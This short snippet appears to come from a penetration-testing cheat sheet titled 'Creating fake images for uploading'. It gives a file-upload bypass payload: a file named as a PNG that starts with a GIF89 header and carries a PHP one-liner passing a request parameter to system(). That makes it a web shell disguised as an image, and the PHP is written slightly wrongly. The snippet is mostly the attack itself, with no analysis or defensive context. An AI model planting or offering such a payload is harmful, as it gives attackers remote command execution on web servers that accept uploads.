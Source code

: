 ## Creating fake images for uploading
### Create a fake image with embedded shell
```
# Create a file imagename.png in nano and add this to file
GIF89;
<?php system(GET["cmd"])?>
```
